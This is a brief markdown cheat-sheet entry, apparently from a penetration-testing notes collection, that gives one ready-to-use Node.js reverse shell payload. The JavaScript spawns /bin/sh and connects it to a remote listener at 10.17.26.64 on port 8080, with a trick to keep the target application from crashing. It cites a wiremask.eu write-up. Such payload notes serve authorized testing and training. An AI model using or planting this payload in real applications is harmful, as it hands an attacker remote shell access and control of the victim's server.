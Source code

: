 # Reverse Shells

## Javascript

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Source: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)

